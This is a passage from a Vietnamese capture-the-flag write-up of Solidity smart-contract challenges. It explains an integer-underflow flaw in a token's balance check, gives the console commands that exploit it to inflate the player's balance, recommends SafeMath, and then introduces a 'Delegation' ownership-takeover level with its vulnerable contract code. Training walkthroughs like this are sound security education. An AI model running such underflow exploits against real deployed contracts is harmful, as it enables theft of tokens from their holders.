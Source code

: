 ```js
require(balances[msg.sender] - _value >= 0);
```

những tưởng rằng điều kiện này chỉ đạt được khi balance của msg.sender lớn hơn giá trị value; nhưng không, điều kiện này sẽ trở thành auto true. Thật vậy, nếu như `balance >= value` thì hiển nhiên sẽ là *true*, còn nếu như `balance < value` thì khi `balance - value`  sẽ xảy ra hiện tượng `underflow` và trở nên vô cùng lớn, theo đó điệu kiện cũng sẽ là *true*. Tóm lại, ta sẽ luôn luôn pass.

### Solution

- Trên Chrome console để kiểm tra balance hiện tại:

```js
await contract.balanceOf(player).then(x => x.toNumber())
20
```

- Do điều kiện auto pass, ta sẽ transfer cho một địa chỉ nào đó một giá trị lớn hơn 20 - là số token hiện tại của ta, khi đó phép toán `balances[msg.sender] -= value` sẽ xảy ra hiện tượng *underflow* và ta sẽ sở hữu một lượng **vô cùng lớn** token: 

```js
contract.transfer(player, 21)
```

- Kiểm tra lại balance một lần nữa, wow !! !

```js
await contract.balanceOf(player).then(x => x.toNumber())
1.157920892373162e+77
```

- Submit & all done!

### Bình luận 

- Overflow hay Underflow đều nguy hiểm, hãy dùng thư viện [Safe Math](https://github.com/OpenZeppelin/zeppelin-solidity/blob/master/contracts/math/SafeMath.sol) cho bất cứ phép toán nào của bạn.

## 6. Delegation　★★★★☆☆

**Nhiệm vụ**: Chiếm quyền owner.

```js
pragma solidity ^0.4.18;

contract Delegate {

  address public owner;

  function Delegate(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  function Delegation(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }
```